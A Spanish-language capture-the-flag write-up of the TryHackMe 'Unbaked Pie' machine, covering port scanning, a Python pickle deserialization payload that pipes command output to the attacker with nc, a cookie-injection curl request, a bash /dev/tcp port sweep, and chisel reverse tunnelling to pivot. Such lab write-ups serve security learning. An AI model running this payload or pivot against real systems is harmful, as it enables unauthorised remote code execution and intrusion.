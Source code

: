 ```yaml
---
title: "Unbaked Pie - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/data/pie.png?raw=true"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  - Pivot
  - Python
  - Pickle
  - Bash
  - RCE
---
```


<p align="center">
<img src="">
</p>

La máquina **Pickle Rick** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **Medium**  desarrollada por **tryhackme** y publicada **10 de marzo del 2019** con un sistema operativo **Linux**.

# Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.189.24]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-Pn:**     .
  - **--min-rate 5000:** .
  - **-sS:**
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/scan/scanPort.png?raw=true">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **5003**:  

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/scan/Ports.png?raw=true">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/scan/PortsServ.png?raw=true">
  </p>

  Realmente de este escaneo no logramos sacar mucha información así que como veo que en el resultado se alcanza a ver que tiene etiquetas en **html** entro via web a la ip para ver si tiene alguna servicio http montado.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/scan/web.png?raw=true">
  </p>

  Efectivamente tiene un servicio **http**, la herramienta de wappalyzer no muestra mucha información acerca de la web por eso intuyo que es un servicio web simple sin gestores de contenido.

  Investigando en la pagina vemos que podemos generar un error si entramos directamente a la url **"http://[IP]:5003/search"**

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/scan/error.png?raw=true">
  </p>

  Entre toda la información se alcanza a ver que unas **cookies** se serializan con **pickle** en **base64**, la cookie es **search_cookie**.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/scan/cookie.png?raw=true">
  </p>

  Buscando como aprovecharnos sobre esto encontre el siguiente **(articulo)[https://davidhamann.de/2020/04/05/exploiting-python-pickle/]** que habla como usar python para serializar la data con pickle y enviarla mediante curl la data que serializamos.

  El codigo que podemos usar es el siguiente:

  ```python
  #!/usr/bin/python

  import cPickle
  import sys
  import base64

  DEFAULT_COMMAND = "whoami | nc [Your IP] [PORT]"
  COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

  class PickleRce(object):
      def __reduce__(self):
          import os
          return (os.system,(COMMAND,))

  print base64.b64encode(cPickle.dumps(PickleRce()))
  ```

  Este codigo ya es suficiente para poder conseguir un **RCE** en la maquina victima, esto se haria usando curl y seria de la siguiente forma.

  ```bash
curl -X GET "http://[Ip Machine]:5003/search" -H 'Cookie: search_cookie="[Data Serializada]"'
  ```

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/pickle.png?raw=true">
  </p>

  Ya sabiendo que podemos ejecutar comando nos entablamos una shell a nuestro equipo.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/shell.png?raw=true">
  </p>

  Enumerando el sistema podemos ver que estamos en un contenedor el cual tiene la ip **[172.17.0.2]** y también se puede ver que el **bash_history** no fue borrado y podemos ver los comando que se ejecutaron en la maquina, en lo que se ve es que existe un segmento de red el cual tiene la ip **[172.17.0.1]** y tiene al parecer el puerto 22 abierto para comprobar esto me cree un script en **bash** para encontrar diferentes host y sus puertos abiertos.

  ```bash
#!/bin/bash

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 172.17.0.$i"  &> /dev/null && echo "[!] HOST 172.17.0.$i" &
        for port in $(seq 1 65535);do
                timeout 1 bash -c "echo '' > /dev/tcp/172.17.0.$i/$port" 2>/dev/null && echo $'\t' " [+] Port $port - OPEN" &
        done; wait
done; wait
  ```
  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/script.png?raw=true">
  </p>

  Como vemos efectivamente tiene el puerto **22** abierto la otra maquina que esta en el otro segmeto de red asi que lo que haremos sera un **pivoting** para saltar a la otra maquina para eso usaremos la herramienta **[chisel](https://github.com/jpillora/chisel)** para hacer un **Port Forwarding**.

  Para esto tienes que compilar el binario de **chisel** puede ser con la primer opción que es una compilación normal ó la segunda que es para reducir su peso sin afectar su funcionamiento:

  - go build .

    ó
  - go build -ldflags "-s  -w" .
  - upx burte chisel

  La forma en que yo me comparti el binario a la maquina victima fue mediante el uso de un simple server con **python** usando el comando:
  ```bash
  python3 -m http.simple 80
  ```
  Y desde la maquina victima usando **wget** aprovehcando que en el **bash_history** se ve que esta disponibles en la maquina.
  El usdo de chisel es simple, en nustra maquina de atacante tenemos que ejecutarlo de la siguiente forma:
  ```bash
  ./chisel server --reverse -p 9090
  ```
  Esto es así ya que estamos indicando que queremos montar un server con la propia herramienta de chisel y el parámetro **- -reverse** es para permitir a los clientes especificar un port Forwarding inverso remoto además de las remotas normales y el **-p** sirve para indicar en que puerto local nuestro queremos hacer la tunelización.

  Ahora ya que especificamos esto en nuestra maquina vamos a la maquina victima e ingresamos los siguientes parámetros:

  ```bash
  ./chisel client [Your IP]]:9090 R:22:172.17.0.1:22
  ```
  Aquí estamos especificando que queremos que el chisel actué como cliente a nuestro equipo y por el puerto que configuramos previamente ***(puede ser cualquier puerto escogí esté por que me gusto)*** y con el parámetros **R:** indicamos que sea un remote port Forwarding por el puerto 22 de la maquina victima que es **172.17.0.1** a mi puerto 22.

  Si te preguntas porque no lo hacemos desde nuestra maquina pues es así por que desde nuestra maquina de atacante no tenemos acceso a ese segmento de red pero la maquina que ya comprometimos si lo tiene y lo pudimos verificar a la hora de hacer el host y port discovery con el script en bash que simplemente eran una peticiones **icmp**.

  Ahora ya que hicimos el **port Forwarding** con **chisel** lo podemos verificar con ```lsof -i:22``` y vemos que chisel esta ocupando el puerto **22** de nuestra maquina.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/portf.png?raw=true">
  </p>
